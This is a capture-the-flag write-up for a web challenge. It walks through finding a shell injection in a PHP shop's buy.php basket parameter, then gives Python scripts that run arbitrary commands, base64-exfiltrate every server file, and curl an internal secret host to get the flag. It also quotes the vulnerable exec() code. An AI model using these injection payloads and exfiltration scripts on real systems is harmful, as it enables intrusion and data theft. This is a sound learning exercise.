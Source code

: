 # backtotheroots

[library.m0unt41n.ch/challenges/backtotheroots](https://library.m0unt41n.ch/challenges/backtotheroots) ![](../../resources/web.svg) ![](../../resources/medium.svg) 

# TL;DR

Remote-only challenge. We get access to a mostly-client-side PHP application, with
the single dynamic point being a `GET /buy.php` request, with a shell injection on the
`basket` parameter. From there, download the source and figure out the flag from there.

# First look

The app has three endpoints:

*   `GET /index.php` - list of three products, with buttons to add them to the cart.
*   `GET /checkout.php` - shows the basket and `BUY` / `CLEAR` buttons
*   `GET /buy.php?basket=[{"qty":N,"cost":X,"name":"NAME"},...]` - "executes" the purchase.

Some more details

*   The cart's JSON is stored as an unencrypted `basket` cookie.
*   We can't add the flag to the cart (`Out of stock` &#128578;)
*   Attempt to `BUY` results with `Payment is not implemented` alert.

All the verifications happen with client-side JS, so it is easy to go around all these
blocks by just changing variables or functions from the console. Or editing the cookie.
But, no matter what, the best we can see after sending, e.g.

```
/buy.php?basket=[{"qty":0,"cost":0,"name":"flower"},{"qty":0,"cost":0,"name":"tree"},{"qty":1,"cost":99999,"name":"flag"}]
```

...is (with some formatting):

```html
<html>
  <body onload="if(document.body.innerHTML.indexOf('THIS_IS_THE_TESTSECRET') > -1){alert('Thanks for your purchase, your package will be shipped somewhere!');window.location.href = '/'}">
    Returned with status 0 and output:
    <pre>
      Parcel shipment script has been started. Please wait for it to arrive. The following will be sent:
      <br><br>
      [
        {"qty":0,"cost":0,"name":"flower"},
        {"qty":0,"cost":0,"name":"tree"},
        {"qty":1,"cost":99999,"name":"flag"}
      ]
      <br></pre>
      <pre>Getting Secret from the external Flag storage Vault and submitting everything to the logistics company.
      If you see the test Secret below, it worked and your package will arrive soon!
    </pre>
  </body>
</html>
THIS_IS_THE_TESTSECRET
<br>
```

All that without any additional communication in the `Network` tab of the browser debug tools.

(Just for completness: the PNG files don't contain any obvious hidden information / stego payloads either).

# Exploiting `GET /buy.php?basket=`

The only variable in the app seems to be the `buy.php` handler. Playing around with `curl`, I gradually figured out that:

*   The `basket` parameter seems to be passed mostly **verbatim** - it does not have to be JSON, it will
    almost always show up in above HTML

*   **Not** sending `basket` urlparam results in:<br>
    `Undefined array key "basket" in /var/www/html/buy.php on line 6`

*   A single `'` quote in the `basket` param **generates `status 2`** and no result between `<br>` tags. Otherwise, **the status is `0`**.

*   This hints at some sort of injection. Playing with that further, I ended up with `/buy.php?basket='%27'%3Bls%27` - which **looks like shell injection** indeed!

    ```
    Returned with status 0 and output:
    Parcel shipment script has been started. Please wait for it to arrive. The following will be sent:
    buy.php checkout.php flag.png flower.png index.php tree.png
    Getting Secret from the external Flag storage Vault and submitting everything to the logistics company. If you see the test Secret below, it worked and your package will arrive soon!
    THIS_IS_THE_TESTSECRET
    ```

    So, we see files: `buy.php`, `checkout.php`, `flag.png`, `flower.png`, `index.php` and `tree.png`.

*   We can create a small wrapper around this:

    ```python
    import requests
    import urllib.parse

    URL = "https://219a9ce1-4c5f-4173-8d21-9c580671dcfd.library.m0unt41n.ch:1337"

    def RunCmd(cmd):
        url = URL + "/buy.php?basket="+urllib.parse.quote("';"+cmd+"'")
        return requests.get(url).text[339:-243]
    
    print(runCmd("ls"))
    ```

    (the `[339:-243]` offsets are empirical, from above strings - they return just the part between `<pre>` tags)

*   Now, this allows `cat` on files, but PHP eval / execution is guaranteed to lose some
    nuances like newlines, string boundaries, etc. As we have shell access, it's better to
    fetch the files encoded to a known-plaintext format. With that, the exfil script:

    ```python
    import base64

    def GetFile(name):
        s = RunCmd("base64 "+name)
        open(name, "wb").write(base64.b64decode(s))

    for name in RunCmd("ls").split(" "):
        print("Fetching: "+name)
        GetFile(name)
    ```
  
All this gets us complete server-side PHP source of the app.

# The code

Looking at the source, `index.php` and `checkout.php` are confirmed to be pure HTML files (no PHP code). `buy.php` though:

```php
$a=[];
$output=null;
$retval=null;
echo '<html><body onload="if(document.body.innerHTML.indexOf(\'THIS_IS_THE_TESTSECRET\') > -1){alert(\'Thanks for your purchase, your package will be shipped somewhere!\');window.location.href = \'/\'}">';
exec('echo \'Parcel shipment script has been started. Please wait for it to arrive. The following will be sent:\n\n \'$(echo \''.$_GET['basket'].'\' 2>&1)', $output, $retval);
echo "Returned with status $retval and output:\n";
echo "<pre>";
foreach ($output as $item) {
    echo $item . "<br>";
}
echo "</pre><pre>Getting Secret from the external Flag storage Vault and submitting everything to the logistics company. If you see the test Secret below, it worked and your package will arrive soon!</pre></body></html>";

$a=[];
$output=null;
$retval=null;
exec('curl http://backtotheroots-secret/testsecret.php', $output, $retval);
foreach ($output as $item) {
    echo $item . "<br>";
}
```

The first `exec()` explains the shell injection. Let's play with the second one.

*   `print(RunCmd("curl -Ls http://backtotheroots-secret/testsecret.php"))`

    ```
    THIS_IS_THE_TESTSECRET
    ```

*   `print(RunCmd("curl -Ls http://backtotheroots-secret/"))`

    ```html
    <html><body>Welcome to the internal secret store, as it's not reachable from external networks, all your secrets are safe here!<br><br><a href='testsecret.php'>TEST</a><br><a href='flag.php'>FLAG</a></body></html>
    ```

*   `print(RunCmd("curl -Ls http://backtotheroots-secret/flag.php"))`

    ... gets the flag &#128578;

---

## `stairctf{Glad_we_dont_build_websites_like_that_anymore}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
